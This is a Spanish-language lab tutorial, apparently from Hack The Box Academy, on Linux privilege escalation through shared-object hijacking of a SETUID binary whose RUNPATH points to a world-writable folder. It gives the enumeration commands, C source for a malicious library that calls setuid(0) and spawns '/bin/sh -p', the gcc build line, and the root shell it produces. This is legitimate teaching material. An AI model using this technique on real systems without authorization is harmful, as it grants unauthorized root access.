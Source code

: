 # Secuestro de objetos compartidos

---

Los programas y binarios en desarrollo generalmente tienen bibliotecas personalizadas asociadas con ellos. Considere lo siguiente`SETUID`binario.

  Secuestro de objetos compartidos

```shell-session
htb-student@NIX02:~$ ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

Podemos usar[LDD](https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html)para imprimir el objeto compartido requerido por un objeto binario o compartido.`Ldd`Muestra la ubicación del objeto y la dirección hexadecimal donde se carga en la memoria para cada una de las dependencias de un programa.

  Secuestro de objetos compartidos

```shell-session
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

Vemos una biblioteca no estándar llamada`libshared.so`Listado como dependencia del binario. Como se indicó anteriormente, es posible cargar bibliotecas compartidas desde ubicaciones personalizadas. Una de esas configuraciones es la`RUNPATH`configuración. Las bibliotecas en esta carpeta tienen preferencia sobre otras carpetas. Esto se puede inspeccionar utilizando el[readerable](https://man7.org/linux/man-pages/man1/readelf.1.html)utilidad.

  Secuestro de objetos compartidos

```shell-session
htb-student@NIX02:~$ readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

La configuración permite la carga de bibliotecas desde el`/development`carpeta, que es escritura por todos los usuarios. Esta configuración errónea se puede explotar colocando una biblioteca maliciosa en`/development`, que tendrá prioridad sobre otras carpetas porque las entradas en este archivo se verifican primero (antes de otras carpetas presentes en los archivos de configuración).

  Secuestro de objetos compartidos

```shell-session
htb-student@NIX02:~$ ls -la /development/

total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```

Antes de compilar una biblioteca, necesitamos encontrar el nombre de la función llamado por el binario.

  Secuestro de objetos compartidos

```shell-session
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)
```

  Secuestro de objetos compartidos

```shell-session
htb-student@NIX02:~$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

  Secuestro de objetos compartidos

```shell-session
htb-student@NIX02:~$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

Podemos copiar una biblioteca existente al`development`carpeta. Correr`ldd`contra el binario enumera el camino de la biblioteca como`/development/libshared.`Entonces, lo que significa que es vulnerable. Ejecutar el binario arroja un error indicando que no se encuentra con la función nombrada`dbquery`. Podemos compilar un objeto compartido que incluye esta función.

Código:do

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 

```

El`dbquery`La función establece nuestra ID de usuario en 0 (root) y ejecutando`/bin/sh`Cuando se llama. Compilarlo usando[GCC](https://linux.die.net/man/1/gcc).

  Secuestro de objetos compartidos

```shell-session
htb-student@NIX02:~$ gcc src.c -fPIC -shared -o /development/libshared.so
```

Ejecutar el binario nuevamente debe mostrar el banner y explota un shell raíz.

  Secuestro de objetos compartidos

```shell-session
htb-student@NIX02:~$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```